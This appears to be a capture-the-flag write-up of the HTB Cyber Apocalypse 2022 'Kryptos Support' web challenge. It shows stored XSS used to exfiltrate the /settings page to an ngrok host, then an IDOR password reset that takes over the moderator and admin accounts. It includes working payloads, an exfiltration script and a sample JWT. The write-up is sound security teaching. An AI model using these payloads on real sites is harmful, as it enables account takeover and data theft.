 ```yaml
---
title: "Kryptos Support challenge Writeup"
header:
  teaser: "/assets/images/CTFs/Flag.png"
tags: ["CTF", "XSS", "IDOR"]
date: 2022-05-19T12:49:18+34:08
categories:
  - Web Exploitation 
ribbon: red
toc: true
draft: false
---
```


HTB Cyber Apocalypse CTF 2022 was held from the 14th of May Until the 19th of the month , and we have participated under the team 0xcha0s, we have managed to solve multiple challenges. this challenge was ranked easy

<!--more-->

|           |                                                                                      |
| --------- | ------------------------------------------------------------------------------------ |
| CTF name  | [Cyber Apocalypse CTF 2022](https://www.hackthebox.com/events/cyber-apocalypse-2022) |
| challenge | Kryptos Support                                                                      |
| category  | web                                                                                  |
| about     | XSS , IDOR                                                                           |
| team      | [0xCha0s](https://ctftime.org/team/168238)                                           |

## Discovery :

This easy challenge are introduced with this page , as we see just add a report issue interface:

![image](/assets/images/CTFs/Kryptos-Support/20220517090100.png)

There is also end point `/login` But there is no `/signup` or `register`

![image](/assets/images/CTFs/Kryptos-Support/20220517090146.png)

and First thing i have tried is to get xss , i used xsshunter as a proof only latter on will use ngrok http server :

```html
<script src=https://XXXXXXX.xss.ht></script>
```

and we get a hit :

![image](/assets/images/CTFs/Kryptos-Support/20220517090357.png)

we know from the report the following :

- vulnerable page `http://127.0.0.1:1337/tickets/new`
- the session used is JWT based: `session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI3NzEwMTh9.iQshqI16zGjE3tUOVQHsqLKaZofC8JyFN4CWhHH6lWg`
- and from the DOM we can see there are other internal end points which are `/settings` and `/logout`

Decoding the cookie we got the username and the uid

![image](/assets/images/CTFs/Kryptos-Support/20220517090628.png)

## Attacking :

I wanted to get an overview about what functions are there in the `/settings` page. so we craft this payload :

```javascript
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://127.0.0.1:1337/settings");
xhr.onload = function () {
  var out = btoa(xhr.responseText);
  var exfil = new XMLHttpRequest();
  exfil.open("GET", "http://3bbd-156-194-235-84.ngrok.io/?out=" + out);
  exfil.send();
};
xhr.send();
```

and will use this payload at the report page to request the script we host :

```html
<script src="http://3bbd-156-194-235-84.ngrok.io/get.js"></script>
```

![image](/assets/images/CTFs/Kryptos-Support/20220517091750.png)

decoding it :

![image](/assets/images/CTFs/Kryptos-Support/20220517091900.png)

will notice the page has the update password function also , we can check the Js code under `/static/js/settings.js` and it is publicly exposed :

```Javascript
$(document).ready(function() {
	$("#update-btn").on('click', updatePassword);

});

async function updatePassword() {

	$('#update-btn').prop('disabled', true);

	let card = $("#resp-msg");
    card.text('Updating password, please wait');
	card.show();

	let uid = $("#uid").val();
	let password1 = $("#password1").val();
	let password2 = $("#password2").val();

	if ($.trim(password1) === '' || password1 !== password2) {
		$('#update-btn').prop('disabled', false);
		card.text("Please type-in the same password!");
		card.show();
		return;
	}

	await fetch(`/api/users/update`, {
			method: 'POST',
			headers: {
				'Content-Type': 'application/json',
			},
			body: JSON.stringify({password: password1, uid}),
		})
		.then((response) => response.json()
			.then((resp) => {
				card.text(resp.message);
				card.show();
			}))
		.catch((error) => {
			card.text(error);
			card.show();
		});

    $('#update-btn').prop('disabled', false);
}
```

The catch here is that it doesn't check the old password , just providing the uid and the new password will reset the password. we can confirm with this script which will reset the password of the moderator user

```javascript
var xhr = new XMLHttpRequest();
var theUrl = "http://127.0.0.1:1337/api/users/update";
xhr.open("POST", theUrl);
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send(JSON.stringify({ password: "testme123", uid: "100" }));
```

And we have successfully logged in with the new password and the username `moderator` :

![image](/assets/images/CTFs/Kryptos-Support/20220517092343.png)

Now why not reset the password for the user **`admin`** too ? , as it doesn't check on the `uid` , we can run intruder to fuzz the admin uid But for our luck it is **`1`** . from the moderator account we can reset the password without the need to use javascript code and ngrok hosting it

![image](/assets/images/CTFs/Kryptos-Support/20220517093121.png)

and now we can login with the admin user

![image](/assets/images/CTFs/Kryptos-Support/20220517093228.png)
